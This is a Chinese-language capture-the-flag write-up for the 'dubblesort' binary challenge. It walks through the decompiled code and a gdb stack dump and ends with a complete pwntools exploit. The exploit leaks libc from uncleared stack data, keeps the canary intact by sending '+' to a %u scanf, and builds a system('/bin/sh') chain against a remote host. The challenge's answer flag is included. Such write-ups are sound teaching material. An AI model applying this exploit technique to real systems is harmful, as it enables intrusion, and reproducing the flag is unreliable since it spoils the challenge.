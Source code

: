 # dubblesort

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=39295174-778f-4311-9424-465311ccc228_2)

猛然发现自己根本就没有独立做出来几道pwn题过。

这次的checksec开局提升震慑效果。

-   Arch:     i386-32-little
    <br>RELRO:    Full RELRO
    <br>Stack:    Canary found
    <br>NX:       NX enabled
    <br>PIE:      PIE enabled
    <br>FORTIFY:  Enabled

保护全开，不妙啊。

```c
undefined4 main(void)
{
  undefined4 uVar1;
  uint uVar2;
  uint *puVar3;
  int in_GS_OFFSET;
  uint local_78;
  uint local_74 [8];
  undefined local_54 [64];
  int local_14;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  FUN_000108b5();
  __printf_chk(1,"What your name :");
  read(0,local_54,64);
  __printf_chk(1,"Hello %s,How many numbers do you what to sort :",local_54);
  __isoc99_scanf(&format,&local_78);
  if (local_78 != 0) {
    puVar3 = local_74;
    uVar2 = 0;
    do {
      __printf_chk(1,"Enter the %d number : ",uVar2);
      fflush(*(FILE **)PTR_stdout_00011ff0);
      __isoc99_scanf(&format,puVar3);
      uVar2 = uVar2 + 1;
      puVar3 = puVar3 + 1;
    } while (uVar2 < local_78);
  }
  Process(local_74,local_78);
  puts("Result :");
  if (local_78 != 0) {
    uVar2 = 0;
    do {
      __printf_chk(1,&DAT_00010c1d,local_74[uVar2]);
      uVar2 = uVar2 + 1;
    } while (uVar2 < local_78);
  }
  uVar1 = 0;
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar1 = CanaryFailed();
  }
  return uVar1;
}
```

我发现当程序出现没什么用的功能时那个地方就有知识点。比如这里提示我们输入名字，可是这个名字基本上没用。[wp](https://blog.csdn.net/seaaseesa/article/details/103131391)提示此处的知识点是read在接收输入到local_54之前没有将local_54清空，那么里面可能会有残留数据。这点我没想明白为啥这题会有，其他的题就好好的，关键残留的数据正好是libc的加载地址。gdb调试可以得到里面残留的数据,在__printf_chk设个断点，执行到read下面那个__printf_chk时输入命令检查。

- (gdb) x/64u $ebp-0x5c
<br>0xffe9dc6c:     10      221     233     255     0       0       0       0
<br>0xffe9dc74:     0       0       0       0       0       0       0       1
<br>0xffe9dc7c:     9       0       0       0       64      69      246     247
<br>0xffe9dc84:     0       0       0       0       190     228     210     247
<br>0xffe9dc8c:     84      0       244     247     160     228     245     247
<br>0xffe9dc94:     128     111     247     247     190     228     210     247
<br>0xffe9dc9c:     160     228     245     247     224     220     233     255
<br>0xffe9dca4:     108     230     245     247     64      235     245     247

我只输入了一个回车，也就是最开始的10。发现这里面满满当当，0xffe9dc84到0xffe9dc8c的0之前的数据就是libc的当前加载地址。如果我们输入28个字符，那prinf的时候就会带着这些数据一起打印出来，直到0结束。libc加载偏移就可以直接通过这次静态调试出来了，因为给了libc，可以直接找出libc的基地址然后两者相减。当然动态也是可以的。

接着就是寻找关键漏洞点了。我之前一直想着数字类型变量无法溢出，忽略这题的变化。数字没法溢出仅限于单次输入，这次是循环输入到puVar3这个地址，每输入一个数字地址自增1，那只要算好这个地址，是可以构成rop链的。还没有结束，意识到可以rop还不够，canary怎么绕过？process函数中还对我们输入的内容做了改变。

```c
void Process(uint *param_1,int param_2)
{
  int iVar1;
  uint uVar2;
  uint *puVar3;
  int iVar4;
  uint *puVar5;
  int in_GS_OFFSET;
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  puts("Processing......");
  sleep(1);
  if (param_2 == 1) {
LAB_000109a9:
    if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
      CanaryFailed();
    }
    return;
  }
  iVar4 = param_2 + -2;
  puVar5 = param_1 + param_2 + -1;
  do {
    puVar3 = param_1;
    if (iVar4 != -1) {
      do {
        uVar2 = *puVar3;
        if (puVar3[1] < uVar2) {
          *puVar3 = puVar3[1];
          puVar3[1] = uVar2;
        }
        puVar3 = puVar3 + 1;
      } while (puVar5 != puVar3);
      if (iVar4 == 0) goto LAB_000109a9;
    }
    iVar4 = iVar4 + -1;
    puVar5 = puVar5 + -1;
  } while( true );
}
```

这个函数的功能是会把我们输入的数字按照从小到大的顺序进行排序后输出。我们期望的顺序是无用数据-canary-ebp-system_addr-bin_sh_addr，那么必须满足无用数据<canary<ebp<system_addr<bin_sh_addr。

system和binsh好办，system总是小于binsh。ebp随便填，比system小就行了，或者直接无脑填system，怎么排序都对。无用数据填0，怎么着都比剩下的小。就是这个canary有点麻烦，每次运行都是随机的，所以只能碰运气了,一般都是比system小的。那么只剩下最后一个问题：canary怎么绕过？

程序中接收输入的代码为__isoc99_scanf(&format,puVar3);，其中format内容为%u，也就是无符号整数。%u从C99标准之后，我们能够选择输入符号，如果符号为负数，将不会抛出错误，并且将会变成对应补码。如果只传入符号+或者-，原有的数据不会改变。意味着当我们输入到canary的位置时，输入+或者-，canary将会保持原值。计算偏移请看上面的wp，ghidra里面看不到输入的数字的位置，只能看见canary的。

```python
from pwn import *
p=remote("61.147.171.105",58675)
base_offset=0x1AE244
bin_sh_offset=0x0015902b
system_offset=239936
payload = b'a'*0x1C  
p.sendafter('name :',payload)  
p.recvuntil(payload)
libc_base = u32(p.recv(4)) - base_offset
system_addr=libc_base+system_offset
binsh_addr=libc_base+bin_sh_offset
n = 35  
p.sendlineafter('sort :',str(n))  
for i in range(0,n-11):  
   p.sendlineafter('number :',str(0))  
p.sendlineafter('number :','+')  
for i in range(0,9):  
   p.sendlineafter('number :',str(system_addr))  
p.sendlineafter('number :',str(binsh_addr))  
p.interactive()
```

- ### Flag
  > cyberpeace{5e637dfbd6ab1ed0915fbe60499f40e9}